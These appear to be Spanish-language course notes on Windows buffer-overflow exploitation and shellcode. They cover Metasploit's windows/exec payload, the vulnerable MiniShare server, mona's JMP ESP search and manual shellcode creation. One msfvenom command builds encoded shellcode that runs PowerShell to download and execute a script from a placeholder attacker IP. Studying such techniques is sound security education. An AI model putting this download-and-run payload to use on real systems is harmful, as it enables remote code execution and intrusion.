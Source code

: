 El payload “**windows/exec**” es un payload de Metasploit que permite ejecutar un comando arbitrario en la máquina objetivo. Este payload requiere que se especifique el comando a ejecutar a través de la variable CMD en el payload. Al generar el shellcode con msfvenom, se puede utilizar el parámetro “-p windows/exec CMD=comando>” para especificar el comando que se desea ejecutar.

Una vez generado el shellcode con el comando deseado, se puede utilizar la técnica de buffer overflow para sobrescribir el registro EIP y hacer que el flujo del programa entre en el shellcode. Al interpretar el shellcode, se ejecutará directamente el comando especificado en la variable CMD.
_________________

```sh
msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://<ip_atacante>/PS.ps1')" --platform windows -a x86 -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread
```

________________________________
[MiniShare](https://es.osdn.net/projects/sfnet_minishare/downloads/OldFiles/minishare-1.4.1.exe/)

```
# Conexion 
telnet GET HTTP/1.1
```

```
!mona findwild -s "JMP ESP"
```

__________________________________
**Funcionamiento y creación manual de Shellcodes**
______________________________________________
Los **shellcodes** son programas pequeños y altamente optimizados que se utilizan para explotar vulnerabilidades de seguridad y ejecutar código malicioso en una máquina objetivo. Los shellcodes suelen ser escritos en lenguaje **ensamblador** para garantizar una ejecución rápida y eficiente.

En esta clase, exploraremos cómo funcionan los shellcodes por detrás mediante la creación de algunos shellcodes manualmente. Por ejemplo, intentaremos crear un shellcode que muestre por consola el mensaje “**Hola mundo**” utilizando interrupciones del sistema. Asimismo, intentaremos aplicar una llamada a nivel de sistema para lograr ejecutar un comando deseado.

Una vez que se ha generado el compilado resultante, se puede utilizar el comando **objdump** para convertir el archivo binario generado en un shellcode que pueda ser utilizado en un Buffer Overflow.
________________________

Para mirar las funciones a nivel de sistema del código ensamblador

```sh
cat /usr/include/asm/unistd_32.h
```

![[Pasted image 20231020124949.png]]
```sh
man 2 <nombre de la funcion>
```

![[Pasted image 20231020125049.png]]

